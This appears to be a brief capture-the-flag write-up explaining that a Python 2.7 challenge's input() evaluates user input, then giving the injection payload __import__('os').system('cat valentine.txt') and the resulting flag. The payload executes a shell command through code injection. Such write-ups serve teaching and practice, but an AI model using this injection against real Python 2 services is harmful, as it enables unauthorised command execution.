 * Using `print ""` indicates that this is python2.7, which has a vulnerability in the input() function that evaluates input


* We can input the following payload to get the flag:
```
__import__('os').system('cat valentine.txt')
```

`valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}`
